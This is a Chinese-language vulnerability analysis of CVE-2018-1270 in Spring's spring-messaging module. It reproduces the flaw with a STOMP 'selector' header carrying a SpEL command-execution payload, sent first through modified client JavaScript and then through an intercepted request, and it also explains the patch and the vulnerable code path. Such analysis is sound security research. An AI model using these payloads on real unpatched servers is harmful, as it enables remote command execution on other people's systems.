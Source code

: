 #spring-messaging远程代码执行漏洞分析(CVE-2018-1270)
##概述
2018年4月5日，Pivotal Spring官方发布安全公告，Spring框架中存在三个漏洞。其中编号为CVE-2018-1270的漏洞可导致远程代码执行，漏洞存在于spring-message模块。


###影响版本
- Spring Framework 5.0 to 5.0.4.
- Spring Framework 4.3 to 4.3.14


##环境搭建
利用官方示例 https://github.com/spring-guides/gs-messaging-stomp-websocket ，git clone后checkout到未更新版本：

    git clone https://github.com/spring-guides/gs-messaging-stomp-websocket
    
    git checkout 6958af0b02bf05282673826b73cd7a85e84c12d3

打开IDEA进行Maven配置

![](https://i.imgur.com/ht7D5px.png)

直接运行项目，环境搭建成功

![](https://i.imgur.com/06MDIBy.png)


##漏洞复现
Spring框架中通过spring-messaging模块来实现STOMP（Simple Text-Orientated Messaging Protocol），STOMP是一种封装WebSocket的简单消息协议。攻击者可以通过建立WebSocket连接并发送一条消息造成远程代码执行。如果使用了Spring Security项目中的权限认证，可以在一定程度上增加漏洞利用难度。
###1.执行Javascript代码进行复现
示例项目是通过静态资源app.js运行在客户端与服务器做websocket交互，使用connect()函数建立Stomp链接。此方法适合在知道代码如下：

    function connect() {
    	var socket = new SockJS('/gs-guide-websocket');
    	stompClient = Stomp.over(socket);
    	stompClient.connect({}, function (frame) {
    		setConnected(true);
    		console.log('Connected: ' + frame);
    		stompClient.subscribe('/topic/greetings', function (greeting) {
    			showGreeting(JSON.parse(greeting.body).content);
    		});
    	});
    }

Stomp协议规范中通过指定selector对订阅的信息进行过滤。增加一个header头部，添加selector项，value为payload。如下：

    function connect() {
    	var header  = {"selector":"T(java.lang.Runtime).getRuntime().exec('calc.exe')"};
    	var socket = new SockJS('/gs-guide-websocket');
    	stompClient = Stomp.over(socket);
    	stompClient.connect({}, function (frame) {
    		setConnected(true);
    		console.log('Connected: ' + frame);
    		stompClient.subscribe('/topic/greetings', function (greeting) {
    			showGreeting(JSON.parse(greeting.body).content);
    		},header);
    	});
    }

控制台使用上述JS代码，并执行开启连接
![](https://i.imgur.com/MQ9tvL7.png)

随意输入字符串进行发送，成功命令执行

![](https://i.imgur.com/S70EIKT.png)


###2.拦截修改数据包
打开burpsuite进行抓包，点击connect。当捕获到下列数据时
![](https://i.imgur.com/i2hUAsN.png)

增加payload：`\nselector:T(java.lang.Runtime).getRuntime().exec('calc.exe')`
![](https://i.imgur.com/dWdhThM.png)

接着发送数据，成功执行payload
![](https://i.imgur.com/CTaac3C.png)

##补丁分析

地址如下：

https://github.com/spring-projects/spring-framework/commit/e0de9126ed8cf25cf141d3e66420da94e350708a#diff-ca84ec52e20ebb2a3732c6c15f37d37a

删除了StandardEvaluationContext引用，采用了SimpleEvaluationContext。StandardEvaluationContext可以执行任意SpEL表达式，Spring官方在5.0.5之后换用SimpleEvaluationContext，用于实现简单的数据绑定，保持灵活性减少安全隐患
![](https://i.imgur.com/XQEvPrn.png)


##漏洞分析

handleMessageInternal对消息进行处理，registerSubscription注册订阅者,最后调用DefaultSubscriptionRegistry函数对header参数进行处理，对selector值进行了解析，并将其保存至这次会话中。

首先进入org/springframework/messaging/simp/broker/DefaultSubscriptionRegistry.java，找到addSubscriptionInternal下断点进行分析
![](https://i.imgur.com/lamnH8l.png)

执行JS，捕获到message数据

![](https://i.imgur.com/jARmqNY.png)

向下执行，this.getSelectorHeaderName()执行结果为selector
![](https://i.imgur.com/c4GU0P5.png)
从header中获取到注入的表达式，赋值给selector
![](https://i.imgur.com/iNcdB43.png)
对表达式进行了解析
![](https://i.imgur.com/zGbAXn7.png)

接着解析后的表达式传到addSubscription，与此次会话绑定在一起。如图所示，此次连接对应的sessionId为hprhnwtn，subsId为sub-0
![](https://i.imgur.com/qTCUtUi.png)

spring进行了一系列处理后，开始向消息的订阅者分发消息，在org/springframework/messaging/simp/broker/SimpleBrokerMessageHandler的sendMessageToSubscribers函数处下断点。之后在http://localhost:8080/中输入任意字符串，点击send
![](https://i.imgur.com/iT4aGdK.png)
跟进findSubscriptions方法，message保存了此次连接/会话的相关信息
![](https://i.imgur.com/zrMmMRw.png)

message传入findSubscriptionsInternal，继续跟进
![](https://i.imgur.com/Ufn4aIO.png)

执行this.destinationCache.getSubscriptions，返回了一对值。分别对应sessionId和subsId
![](https://i.imgur.com/z2T7seM.png)

进入filterSubscriptions函数，两次getSubscriptions操作，此时取出了先前的配置信息。通过getSelectorExpression，获得表达式
![](https://i.imgur.com/wv8EQT5.png)
执行到expression.getValue(context, Boolean.class)，执行了spel表达式，远程命令执行成功。
![](https://i.imgur.com/RU0NR92.png)


##参考链接

- https://xz.aliyun.com/t/2252
- https://pivotal.io/security/cve-2018-1270